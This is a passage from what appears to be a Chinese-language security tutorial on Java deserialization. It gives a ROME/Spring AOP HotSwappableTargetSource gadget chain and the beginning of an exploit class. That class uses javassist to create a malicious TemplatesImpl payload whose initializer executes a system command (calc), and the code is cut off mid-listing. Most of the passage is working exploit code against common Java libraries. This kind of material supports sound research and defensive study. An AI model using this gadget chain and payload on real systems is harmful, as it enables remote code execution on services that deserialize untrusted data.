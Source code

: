**注**：这里进入对应的分支是System.getSecurityManager()返回的null，表示当前线程并未设置或安装安全管理器

## 7\. HotSwappableTargetSource利用链

### 环境依赖

```plain
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>5.2.7.RELEASE</version>
</dependency>
```

### 利用链

```plain
TemplatesImpl.getOutputProperties()
ToStringBean.toString(String)
ToStringBean.toString
XString.equals()
HotSwappableTargetSource.equals()
HashMap.putVal()
HashMap.readObject()
```

### EXP

```plain
package RomeSec;

import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class HotSwapExp {
    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass ctClass = classPool.makeClass("aaaa");
        ctClass.setSuperclass(classPool.get(AbstractTranslet));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = ctClass.toBytecode();

        // 创建TemplatesImpl对象
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);
```